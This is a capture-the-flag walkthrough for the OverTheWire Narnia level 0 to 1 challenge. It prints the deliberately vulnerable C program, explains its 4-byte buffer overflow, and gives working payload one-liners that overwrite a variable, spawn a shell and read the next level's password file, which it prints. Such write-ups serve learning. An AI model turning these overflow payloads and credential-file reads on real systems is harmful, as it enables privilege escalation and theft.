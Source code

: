 
# narnia0 -> narnia1 Guide

## Connecting to the Server
Start by connecting to the OverTheWire Narnia game server:

```bash
> ssh narnia0@narnia.labs.overthewire.org -p 2226
```

## Understanding the Vulnerability
The source code for the narnia0 program contains a buffer overflow vulnerability:
```bash
> narnia0@narnia:~$ cat /narnia/narnia0.c
```
`/narnia/narnia0.c`
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    long val = 0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s", buf);

    printf("buf: %s\n", buf);
    printf("val: 0x%08lx\n", val);

    if (val == 0xdeadbeef) {
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    } else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

## Key Points
* Buffer Size: char buf[20]; allocates 20 bytes for buf.
* Input Size: scanf("%24s", buf); reads up to 24 bytes into buf, allowing an overflow of 4 bytes.
* Initial Value: val is initially set to 0x41414141, which corresponds to the string "AAAA".
* Goal: Modify val to 0xdeadbeef to gain shell access.

## Explanation
* Buffer Overflow: The mismatch between the buffer size (20 bytes) and the allowed input size (24 bytes) enables overwriting adjacent memory, specifically the val variable.
* Endianness: On x86 and x86-64 architectures, multi-byte values are stored in little-endian order. Thus, to set val to 0xdeadbeef, the input needs to be provided in reverse order: \xef\xbe\xad\xde.

## Demonstrating the Overflow
Initial Test with 20 A's
First, test the program with 20 'A's to observe the behavior:
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Modifying val with 20 A's and 4 B's
Next, try to change val by adding 20 'A's and 4 'B's:
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

## Exploiting the Vulnerability
To exploit the buffer overflow, input 20 'A's followed by the little-endian representation of 0xdeadbeef:
```bash
narnia0@narnia:~$ python -c 'print("A"*20 + "\xef\xbe\xad\xde")' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

## Obtaining the narnia1 Password
With the buffer overflow successful, escalate privileges to read the password for narnia1:
```bash
narnia0@narnia:~$ (python -c 'print("A"*20 + "\xef\xbe\xad\xde")'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

## Manual Approach
Alternatively, generate the payload, copy it, and use it manually:
```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)
AAAAAAAAAAAAAAAAAAAAﾭޯ
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae       # password for narnia1
```

## Summary
* Vulnerability: Buffer overflow due to scanf allowing more input than the buffer can hold.
* Exploit: Overwrite val to 0xdeadbeef using crafted input.
* Result: Gain shell access and retrieve the password for the next level.